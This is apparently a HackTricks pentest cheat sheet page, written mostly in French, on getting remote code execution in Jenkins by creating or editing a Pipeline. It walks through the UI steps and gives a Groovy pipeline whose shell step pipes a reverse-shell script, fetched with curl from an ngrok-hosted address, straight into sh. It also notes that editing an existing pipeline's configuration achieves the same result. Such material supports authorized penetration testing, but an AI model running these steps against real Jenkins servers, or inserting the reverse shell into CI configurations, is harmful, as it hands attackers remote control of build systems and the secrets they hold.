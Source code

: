 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Creating a new Pipeline

Dans "Nouvel élément" (accessible à `/view/all/newJob`), sélectionnez **Pipeline :**

![](<../../images/image (235).png>)

Dans la **section Pipeline**, écrivez le **reverse shell** :

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Enfin, cliquez sur **Save**, puis sur **Build Now** et le pipeline sera exécuté :

![](<../../images/image (228).png>)

## Modifier un Pipeline

Si vous pouvez accéder au fichier de configuration d'un pipeline configuré, vous pouvez simplement **le modifier en ajoutant votre reverse shell** puis l'exécuter ou attendre qu'il soit exécuté.

{{#include ../../banners/hacktricks-training.md}}

